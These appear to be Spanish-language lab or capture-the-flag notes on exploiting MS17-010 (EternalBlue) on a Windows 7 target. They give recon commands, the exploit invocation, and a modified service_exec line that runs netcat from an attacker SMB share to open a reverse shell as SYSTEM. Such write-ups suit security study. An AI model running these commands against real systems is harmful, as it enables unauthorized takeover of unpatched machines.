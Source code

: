 # Summary

- IP -> 10.10.10.40
- Ports -> TCP (135, 139, 445, 49152 - 57), UDP (idk)
- OS ->  
- Services & Applications
    -  -> 
    -  -> 

## Recon
- Comando -> **crackmapexec smb {ip_targeted}** Para listar recursos compartidos de Windows. Enotramos un Windows 7 x64
- Comando -> **nmap --scripts “vuln and safe” -p< PORT> < TARGET IP> -oN < FILENAME>** Lanzara vulnerabilidades que no sean muy intrusivas de tipo seguro, va a mandar scripts al puerto 445 para saber si tiene alguna vulnerabilidad que podamos explotar y encontramos el ms17-010 Ethernal Blue

Descargamos el exploit del Ethernalblue de la siguiente pagina
- **python2 checker.py 10.10.10.40**
	- Si el Checker no nos agarra, revisar que tenga guest en username
Aqui debemos de ver que alguno de los resultados nos ponga OK
- **python2 zzz.exploit.py 10.10.10.40 browser**
Con el zzz dentro del archivo podremos colocar un comando, el cual sera el siguiente:
- service_exec(conn, r'cmd /c  **\\\\10.10.14.17\\SmbFolder\\nc.exe -e cmd 10.10.14.17 443**') 
Haremos que mediante un recurso compartido, ejecute el netcat y nos otorgue una consola interactiva 

Antes debemos de decargarnos el binario para Windows del netcat, en este caso de x64
- **unzip netcat.zip -d netcat** Para que lo descargado se guarde en una carpeta llamada 'netcat'
- **cp netcat/nc64.exe nc.exe** Nos copiamos el netcat de x64 al directorio actual de trabajo pero como netcat 

- **rlwrap nc -nlvp 443** Nos ponemos en escucha 
- **impacket-smbserver smbFolder $(pwd) -smb2support** Creamos nuestro recurso compartido en donde esta el netcat que vamos a compartit y le damos soporte por si las dudas a la version 2 de Windows

Ejecutamos el comando anterior y obtenemos la consola como nt authority/system
